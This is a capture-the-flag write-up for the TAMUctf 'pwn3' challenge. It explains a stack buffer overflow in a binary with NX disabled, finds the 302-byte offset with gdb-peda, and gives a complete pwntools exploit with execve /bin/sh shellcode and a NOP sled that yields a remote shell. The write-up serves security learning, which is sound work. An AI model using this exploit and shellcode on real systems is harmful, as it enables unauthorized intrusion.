

# pwn3



Running ```checksec``` on the binary shows us the NX isn't enabled. This means the challenge could involve some shellcode.

```diff
[*] './pwn3'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
-    Stack:    No canary found
-    NX:       NX disabled
+    PIE:      PIE enabled
```

When running the binary we get the message:

```
Take this, you might need it on your journey 0xffb26e1e!
```

This value changes with every execution. This leads me to believe this address of the start of the buffer. This will allow us exact execution of our entered shellcode.

To find the length of the vulnerable buffer we will use gdb's ```pattern``` functionality.

```
gdb-peda$ pattern create 500
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA
5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAW
AAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A
%HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%gA%6A%LA%hA%7A%MA%iA%8A%NA%jA%9A%OA%kA%PA%lA%QA%mA%RA%oA%
SA%pA%TA%qA%UA%rA%VA%tA%WA%uA%XA%vA%YA%wA%ZA%xA%yA%zAs%AssAsBAs$AsnAsCAs-As(AsDAsAsAsEAs
aAs0AsFAsbAs1AsGAscAs2AsHAsdAs3AsIAseAs4AsJAsfAs5AsKAsgAs6A'
```

This creates a cyclic string that can be used to find the location of the overflow. 
Using the created string above as input we can use the error message pointer to find the offset.

```
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x25416825 in ?? ()
```

Then putting the address into ```pattern offset``` we can find the vuln buffer length

```
gdb-peda$ pattern offset 0x25416825 
625043493 found at offset: 302
```

We can use the address returned by the message to overflow the return pointer to reach our shellcode entered into the buffer.

The exploit code used is below: 

```python
from pwn import *
import re

BUFFER_LEN = 302 
NOP = b"\x90"

def gen_shellcode(ret_address):
   
    ## Shellcode to spawn a shell
    shellcode = b""
    shellcode += b"\xeb\x18\x5e\x31\xc0\x88\x46\x07\x89\x76\x08\x89\x46"
    shellcode += b"\x0c\xb0\x0b\x8d\x1e\x8d\x4e\x08\x8d\x56\x0c\xcd\x80"
    shellcode += b"\xe8\xe3\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68";

    shellcode_length = len(shellcode)

    output = b""
    for i in range(BUFFER_LEN - shellcode_length):
        output += NOP

    output += shellcode
    output += ret_address
    
    return output

r = remote("pwn.tamuctf.com", 4323)

r.recvuntil("journey ")

# Reads the address from the stream
address = (r.read()[:10]).decode("utf-8")
return_adress = p32(int(address, 16))

payload = gen_shellcode(return_adress)

r.sendline(payload)

# Gets our flag
r.interactive()
r.close()
```

The ``NOP`` is used as a nop slide. A nop will perform no operation and move onto the next instruction. This allows us to make sure we hit our shellcode.

Running this gives us a shell. Running ```cat flag.txt``` gives us a flag.

```
FLAG: gigem{r3m073_fl46_3x3cu710n}
```